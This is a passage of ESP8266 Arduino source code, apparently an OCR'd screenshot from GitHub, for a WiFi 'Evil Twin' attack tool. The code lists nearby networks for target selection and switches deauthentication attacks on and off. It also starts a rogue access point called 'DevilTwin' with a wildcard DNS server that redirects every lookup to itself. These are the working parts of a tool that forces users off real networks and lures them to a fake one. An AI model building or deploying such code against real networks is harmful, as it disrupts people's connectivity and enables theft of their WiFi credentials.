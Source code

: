     } else if (webServer.arg("hotspot") == "stop") {
      hotspot_active = false;
      dnsServer.stop();
      int n = WiFi.softAPdisconnect (true);
      Serial.println(String(n));
      WiFi.softAPConfig(IPAddress(192, 168, 4, 1) , IPAddress(192, 168, 4, 1) , IPAddress(255, 255, 255, 0));
      WiFi.softAP("DevilTwin", "12345678");
      dnsServer.start(53, "*", IPAddress(192, 168, 4, 1));
    }
    return;
  }

  if (hotspot_active == false) {
    String _html = _tempHTML;

    for (int i = 0; i < 16; ++i) {
      if ( _networks[i].ssid == "") {
        break;
      }
      _html += "<tr><td>" + _networks[i].ssid + "</td><td>" + bytesToStr(_networks[i].bssid, 6) + "</td><td>" + String(_networks[i].ch) + "<td><form method='post' action='/?ap=" + bytesToStr(_networks[i].bssid, 6) + "'>";

      if (bytesToStr(_selectedNetwork.bssid, 6) == bytesToStr(_networks[i].bssid, 6)) {
        _html += "<button style='background-color: #90ee90;'>Selected</button></form></td></tr>";
      } else {
        _html += "<button>Select</button></form></td></tr>";
      }
    }

    if (deauthing_active) {
      _html.replace("{deauth_button}", "Stop deauthing");
      _html.replace("{deauth}", "stop");
    } else {
      _html.replace("{deauth_button}", "Start deauthing");
      _html.replace("{deauth}", "start");
    }

    if (hotspot_active) {
      _html.replace("{hotspot_button}", "Stop EvilTwin");
      _html.replace("{hotspot}", "stop");
    } else {
      _html.replace("{hotspot_button}", "Start EvilTwin");
      _html.replace("{hotspot}", "start");
    }


    if (_selectedNetwork.ssid == "") {
      _html.replace("{disabled}", " disabled");
    } else {
      _html.replace("{disabled}", "");
    }

    _html += "</table>";
